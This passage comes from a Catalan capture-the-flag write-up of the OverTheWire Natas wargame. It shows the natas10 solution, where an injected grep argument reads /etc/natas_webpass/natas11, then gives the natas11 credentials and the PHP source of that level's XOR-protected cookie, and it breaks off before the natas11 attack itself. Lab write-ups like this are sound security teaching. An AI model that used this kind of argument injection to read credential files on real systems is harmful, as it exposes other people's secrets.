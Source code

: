     Com que hi ha un 'grep -i", ens aprofitem i hi posem a davant el fitxer que hi volem posar:
    a /etc/natas_webpass/natas11

    Expressió total:
    grep -i a /etc/natas_webpass/natas11 dictionary.txt

    Ens dona la password:
    /etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg


#  NATAS 11

    Username: natas11
    Password: 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
    URL:      http://natas11.natas.labs.overthewire.org


    A la pàgina web ens mostra:
    Cookies are protected with XOR encryption
    Background color: #fffffff

    Clicant sobre 'view sourcecode', tenim:

    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

    function xor_encrypt($in) {
        $key = '<censored>';
        $text = $in;
        $outText = '';
        // Iterate through each character
        for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
        }

        return $outText;
    }
    function loadData($def) {
        global $_COOKIE;
        $mydata = $def;
        if(array_key_exists("data", $_COOKIE)) {
        $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
        if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
            if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
            $mydata['showpassword'] = $tempdata['showpassword'];
            $mydata['bgcolor'] = $tempdata['bgcolor'];
            }
        }
        }
        return $mydata;
    }
    function saveData($d) {
        setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
    }
    $data = loadData($defaultdata);
    if(array_key_exists("bgcolor",$_REQUEST)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
            $data['bgcolor'] = $_REQUEST['bgcolor'];
        }
    }
    saveData($data);
    ?>
    <h1>natas11</h1>
    <div id="content">
    <body style="background: <?=$data['bgcolor']?>;">
    Cookies are protected with XOR encryption<br/><br/>
    <?